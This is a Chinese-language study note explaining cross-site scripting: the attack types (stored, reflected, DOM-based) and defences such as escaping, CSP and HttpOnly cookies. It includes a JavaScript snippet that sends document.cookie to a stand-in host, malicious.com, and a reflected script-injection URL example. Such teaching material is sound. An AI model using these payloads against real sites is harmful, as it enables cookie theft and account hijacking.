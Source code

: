 ### 浏览器安全-XSS攻击

全称Cross Site Scripting 就是跨网站脚本

也就是**恶意程序往HTML文件中插入JS代码**

![image-20250514081323643](https://typora-an.oss-cn-hangzhou.aliyuncs.com/%E5%89%8D%E7%AB%AF/image-20250514081323643.png)

```js
function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`
  open(url)
}
onClick()
```

### 攻击方式

- 恶意脚本可以通过document.cookies窃取用户的 Cookie 数据，并将其作为参数添加至恶意站点尾部发送到黑客服务器中

- 可以通过监听用户行为获取用户输入的信用卡信息并发送给恶意服务器,  用的是JavaScript中的`addEventListener` 监听用户的键盘事件

- 可以通过修改DOM制造假的登录窗口, 欺骗用户输入用户名和密码等信息.

- 可以页内生成浮窗广告, 影响用户体验

**这就是XSS攻击, 为了解决XSS攻击, 浏览器引入了内容安全策略, 称为CSP, CSP的核心思想就是让服务器可以决定浏览器加载哪些资源, 让服务器决定浏览器是否执行内联JavaScript代码.  这样就可以大大减少XSS攻击**

### XSS攻击种类

#### 存储性XSS 引入恶意脚本代码

将恶意代码存储到有漏洞的服务器, 访问含有恶意脚本的页面就会自动加载恶意脚本, 然后恶意脚本就会上传你的cookie到他们的服务器

#### 反射型XSS 放到URL上了

比如说你设置了视图要展示xss参数, 然后点击了一个恶意链接是[`http://localhost:3000/?xss=`](http://localhost:3000/?xss=)` <script>alert('你被xss攻击了')</script> ` 就会导致xss被替换成了`<script>alert('你被xss攻击了')</script>`

**恶意脚本本身是作为请求参数发送到站点页面存在漏洞的地方（通常是搜索框），然后脚本反射（出现）在新渲染（或者部分刷新）的页面并执行。**

#### 基于DOM的XSS

比如通过网络传输页面过程中修改HTML页面内容, 有的用wifi路由器劫持, 有的是本地恶意软件, 主要就是在web资源传输过程中或用户使用页面的过程中修改web页面的数据.

### 如何阻止XSS攻击

1. 对于存储型和反射型可以在**前端过滤关键字以及服务端对一些关键的字符进行转码**

   ​	比如对关键的字符进行转码, 比如把script标签包裹的内容全部替换成空, 这样就可以防止请求的时候携带脚本,  脚本也不会执行

2. **充分利用CSP**

   在获取HTML时配置HTTP头Content-Security-Policy

   https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP

   1. 限制加载其他域下的资源文件这样即使插入了一个JavaScript脚本也不会被加载
   2. 禁止向第三方域提交数据, 这样用户数据不会泄漏
   3. 禁止执行内联脚本和未授权脚本
   4. 还有上报机制, 可以帮助发现有哪些XSS攻击, 便于修复

3. **使用HttpOnly属性**

   ​	很多XSS攻击都是盗用cookie, 因此可以通过服务器设置响应头中的set-cookie中的HttpOnly属性来保护cookie的安全, 使用HttpOnly的cookie在控制台中也是不一样的,  无法用JavaScript来读取, 比如document.cookie就无法读取到了

   ![image-20250514081731718](https://typora-an.oss-cn-hangzhou.aliyuncs.com/%E5%89%8D%E7%AB%AF/image-20250514081731718.png)

   ​	